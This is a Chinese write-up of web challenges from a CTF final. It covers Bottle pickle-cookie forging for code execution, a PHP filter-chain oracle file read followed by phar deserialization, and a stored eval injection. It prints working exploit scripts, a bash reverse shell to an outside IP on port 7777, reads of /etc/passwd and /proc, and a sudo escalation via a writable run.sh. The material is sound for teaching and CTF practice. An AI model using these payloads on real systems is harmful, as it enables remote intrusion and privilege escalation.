



+++
date = '2024-12-27T22:03:55+08:00'
title = '国城杯决赛-Web-Writeup'
categories = ["Writeup"]
tags = ["writeup", "ctf", "web"]

+++

### CTF

#### mountain

> Python Bottle框架伪造session打pickle反序列化

拿到题目看一下源码，有hint


访问/display


根据提示，尝试用photo参数读图片


猜测应该有任意文件读取

读一下/etc/passwd


接下来看看能不能读源码

先读环境变量/proc/self/cmdline，发现被waf了


再试试直接读/proc/1/cmdline（self被waf了）



得到源码位置，我们直接读

/apppppp/app.py


拿到源码

```python
from bottle import Bottle, route, run, template, request, response
from config.D0g3_GC import Mountain
import os
import re


messages = []

@route("/")
def home():
    return template("index")


@route("/hello")
def hello_world():
    try:
        session = request.get_cookie("name", secret=Mountain)
        if not session or session["name"] == "guest":
            session = {"name": "guest"}
            response.set_cookie("name", session, secret=Mountain)
            return template("guest", name=session["name"])
        if session["name"] == "admin":
            return template("admin", name=session["name"])
    except:
        return "hacker!!! I've caught you"


@route("/display")
def get_image():
    photo = request.query.get('photo')
    if photo is None:
        return template('display')
    if re.search("^../|environ|self", photo):
        return "Hacker!!! I'll catch you no matter what you do!!!"
    requested_path = os.path.join(os.getcwd(), "picture", photo)
    try:
        if photo.endswith('.png'):
            default_png_path = "/appppp/picture/"
            pngrequested_path = default_png_path+photo
            with open(pngrequested_path, 'rb') as f:
                tfile = f.read()
            response.content_type = 'image/png'
        else:
            with open(requested_path) as f:
                tfile = f.read()
    except Exception as e:
        return "you have some errors, continue to try again"
    return tfile


@route("/admin")
def admin():
    session = request.get_cookie("name", secret=Mountain)
    if session and session["name"] == "admin":
        return template("administator", messages=messages)
    else:
        return "No permission!!!!"


if __name__ == "__main__":
    os.chdir(os.path.dirname(__file__))
    run(host="0.0.0.0", port=8089)
```

这里是导入的是构造cookie的key

```
from config.D0g3_GC import Mountain
```

key可以通过任意文件读取读到

/appppp/config/D0g3_GC.py


通过代码我们可以发现，哪怕我们构造出admin进入到/admin路由那我们其实也不能得到什么

事实上这是一道pickle反序列化的题目


我们如果跟进get_cookie方法(/admin和/hello都有)我们可以发现


在这个get_cookie方法里面会对cookie中的数据进行pickle反序列化

也就是说我们可以通过他就可以进行任何命令的执行

exp

```python
from bottle import route, run,response
import os


Mountain = "123"

class exp(object):
    def __reduce__(self):
        return (eval, ("__import__('os').popen('calc').read()",))


@route("/")
def index():
        session = exp()
        response.set_cookie("name", session, secret=Mountain)
        return "success"


if __name__ == "__main__":
    os.chdir(os.path.dirname(__file__))
    run(host="127.0.0.1", port=8081)
```

弹shell拿flag


#### 图片查看器

> 考点：1.信息收集 2.filterchain读文件 3.phar反序列化 4.提权



拿到题目是一个名字输入器，但这玩意没什么用

随便输一个名字就会进入到/trans1t.php


我们先不急着去挑战，先看看这个页面有没有什么hint


提示有东西在hI3t.php,但是我们没办法直接访问

接着点来到挑战来到/chal13nge.php


是一个图片上传，我们再查看一下源代码


结合刚刚看到的hI3t.php，猜测大概率是要想办法读hI3t.php

再看看这个文件上传，再上传成功后可以进行文件信息的查询，文件信息查询使用的方法很可能存在filter链的漏洞

这里是关于oracle的文件读取漏洞

> [PHP Filter链——基于oracle的文件读取攻击 - 先知社区](https://xz.aliyun.com/t/12939?time__1311=GqGxuD9Qi%3Dn4lrzG7Dy7FD8RAg4xYubPpD)
>
> 自动化工具：https://github.com/synacktiv/php_filter_chains_oracle_exploit

```
python filters_chain_oracle_exploit.py --target http://125.70.243.22:31345/chal13nge.php --file '/var/www/html/hI3t.php' --parameter image_path

//--target 目标地址 --file 要读的文件地址 --parameter 要注入的参数
```

'

访问/x@1.php


我们可以看到一个后门类backdoor，通过它我们可以执行任意的命令

那我们怎么调用这个后门类呢？

结合刚刚的文件上传和文件信息查询，我们可以想到phar反序列化

```php
<?php
 
class backdoor
{
    public $cmd;
 
    function __destruct()
    {
        $cmd = $this->cmd;
        system($cmd);
    }
}
 
$a=new backdoor();
$a->cmd='bash -i >& /dev/tcp/106.55.168.231/7777 0>&1"'; //弹个shell
$phar = new Phar("test.phar");
$phar->startBuffering();
$phar->setStub("<php __HALT_COMPILER(); ?>");
$phar->setMetadata($a);
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
```

接着我们可通过抓包修改文件后缀的方法上传我们的phar文件


上传成功

我们接着读phar文件


成功弹shell


尝试读flag发现要提权

通过 **sudo -l** 可以发现有一个check.sh文件具有sudo权限


执行check.sh会运行run.sh


也就是说我们可以通过写一个run.sh来读flag

```
echo "cat /root/flag" > /tmp/rootscripts/run.sh
chmod 777 /tmp/rootscripts/run.sh
sudo /tmp/rootscripts/check.sh "/tmp/rootscripts"
```


拿到flag


题外

/chal13nge.php的源码

```php
<?php
error_reporting(0);
include "class.php";

if (isset($_POST['image_path'])) {
    $image_path = $_POST['image_path'];
    echo "The owner ID of the file is: ";
    echo fileowner($image_path)."<br><br>";
    echo "文件信息如下：". "<br>";
    $m = getimagesize($image_path);
    if ($m) {
        echo "宽度: " . $m[0] . " 像素<br>";
        echo "高度: " . $m[1] . " 像素<br>";
        echo "类型: " . $m[2] . "<br>";
        echo "HTML 属性: " . $m[3] . "<br>";
        echo "MIME 类型: " . $m['mime'] . "<br>";
    } else {
        echo "无法获取图像信息，请确保文件为有效的图像格式。";
    }
}

$allowed_extensions = ['jpg', 'jpeg', 'gif', 'png'];
$upload_dir = __DIR__ . '/uploads/';
if ($_SERVER['REQUEST_METHOD'] == 'POST' && isset($_FILES['image'])) {
    $file = $_FILES['image'];
    $file_ext = strtolower(pathinfo($file['name'], PATHINFO_EXTENSION));

    if (in_array($file_ext, $allowed_extensions)) {
        $upload_path = $upload_dir . basename($file['name']);

        if (move_uploaded_file($file['tmp_name'], $upload_path)) {
            echo "上传成功！路径: " . 'uploads/' . basename($file['name']);
        } else {
            echo "文件上传失败，请重试。";
        }
    } else {
        echo "不支持的文件类型，仅支持: " . implode(", ", $allowed_extensions);
    }
}
?>
<!DOCTYPE html>
<html lang="zh-CN">
<head>
    <meta charset="UTF-8">
    <title>图片上传与信息获取</title>
</head>
<body>
<h2>图片上传</h2>
<form action="" method="post" enctype="multipart/form-data">
    <input type="file" name="image" required>
    <button type="submit">上传图片</button>
</form>
<h2>获取图片信息</h2>
<form action="" method="post">
    <label for="image_path">请输入图片路径：</label>
    <input type="text" name="image_path" required>
    <button type="submit">获取图片信息</button>
</form>
</body>
<!--只需要从一个文件中获取到关键信息，这个文件在哪儿呢-->
```

从源码我们可以看到关于照片的信息查询使用的是getimagesize函数，而且没有对传入的参数进行过滤

而getimagesize也是受filter链影响的函数之一


### AWDP

#### Chemical_Plant

##### 攻击

FeedbackService.php

```php
<?php
error_reporting(0);
class FeedbackService {
    private $db;

    public function __construct($dbConnection) {
        $this->db = $dbConnection;
    }

    public function addFeedbackByUserId($user_id, $feedback) {
        // 预处理
        $stmt = $this->db->prepare("INSERT INTO feedback (userid, feedback) VALUES (?, ?)");
        $stmt->bind_param("ss", $user_id, $feedback);

        // 执行插入操作
        if ($stmt->execute()) {
            return true;
        } else {
            return false;
        }
    }

    public function getEmailById($id) {
        // 预处理
        $stmt = $this->db->prepare("SELECT userid FROM feedback WHERE id = ?");
        $stmt->bind_param("i", $id);
        // 执行查找操作
        if ($stmt->execute()) {
            $result = $stmt->get_result();
            if ($result->num_rows > 0) {
                $row = $result->fetch_assoc();
                $arr = stripslashes($row['userid']);
                eval('$arr='.$arr.';');
                return $arr;
            } else {
                return null;
            }
        } else {
            return false;
        }
    }
}

?>

```

在FeedbackService.php的getEmailById方法中的存在eval，假如arr可控，那我们就可以进行任意命令执行

那我们继续往上看

```
$arr = stripslashes($row['userid']);
```

变量arr来源于数据库查表id返回的结果中的userid

假如说我们可以提前在userid中写入我们要执行的命令，再通过id查询，就可以进行任意命令的执行

写入数据库的命令我们可以在FeedbackService.php的addFeedbackByUserId方法中找到

```
public function addFeedbackByUserId($user_id, $feedback) {
        // 预处理
        $stmt = $this->db->prepare("INSERT INTO feedback (userid, feedback) VALUES (?, ?)");
        $stmt->bind_param("ss", $user_id, $feedback);

        // 执行插入操作
        if ($stmt->execute()) {
            return true;
        } else {
            return false;
        }
    }
```

这里通过贫拼接的方式将user_id拼接到sql语句中并执行

那我们接下就需要找到哪里调用addFeedbackByUserId方法


在services.php里进行用户反馈内容提交时，没有进行任何过滤就调用addFeedbackByUserId方法写入

那我们执行个whoami试试


命令为什么要这样写呢

```
eval('$arr='.$arr.';');
```

因为命令执行的时候进行了简单的拼接

写入数据后我们接下来就要看看怎样调用getEmailById方法进行数据库id查询

controller.php

```php
<?php

// 引入类文件
require_once 'NewsService.php';
require_once 'FeedbackService.php';
require_once'dbconnect.php';
require_once 'news_data.php';

$db = new DBConnect();
$connection = $db->getConnection();
$NewsService = new NewsService($news_items);
$FeedbackService = new FeedbackService($connection);

$className = isset($_GET['c']) ? $_GET['c'] : null;
$methodName = isset($_GET['m']) ? $_GET['m'] : null;
$id = isset($_GET['id']) ? $_GET['id'] : null;


if ($className && $methodName) {
    if ($className === 'NewsService' && method_exists($NewsService, $methodName))
    {
        echo $NewsService->$methodName($id);
    }
    elseif ($className === 'FeedbackService' && method_exists($FeedbackService, $methodName))
    {
        echo $FeedbackService->$methodName($id);
    } else {
        echo "无效的类或方法";
    }
} else {
    echo "缺少类或方法参数";
}


?>

```

在controller.php里面可以通调用FeedbackService.php和NewsService.php中的方法

```
$className = isset($_GET['c']) ? $_GET['c'] : null;
$methodName = isset($_GET['m']) ? $_GET['m'] : null;
$id = isset($_GET['id']) ? $_GET['id'] : null;
```

通过get传参即可调用getEmailById方法

payload:

```
c=FeedbackService&m=getEmailById&id=0
```

这个id我们其实并不清楚，可以爆破或者一个个试试，反正不多



命令成功执行，接下来只需要读flag就行了


